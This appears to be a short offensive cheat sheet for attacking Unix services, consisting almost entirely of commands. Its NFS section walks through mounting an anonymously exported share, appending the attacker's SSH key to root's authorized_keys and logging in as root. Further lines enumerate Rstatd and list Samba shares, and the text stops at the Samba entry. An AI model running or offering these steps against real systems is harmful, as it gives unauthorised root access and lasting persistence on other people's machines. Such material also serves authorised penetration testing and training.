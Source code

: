 
Unix


### NFS Shares Anonymous Mountable

showmount -e <target IP>

mkdir /tmp/mount
mount -t nfs -o nolock <target IP>:/share /tmp/mount/
cat /root/.ssh/id_rsa.pub >> /tmp/mount/root/.ssh/authorized_keys
umount /tmp/mount
ssh root@<target IP>
------------------------------------------------------------------------------------------------------

### Rstatd enabled

rsysinfo <target IP>
------------------------------------------------------------------------------------------------------

### Samba with a writeable file share

smbclient -L //<target IP>
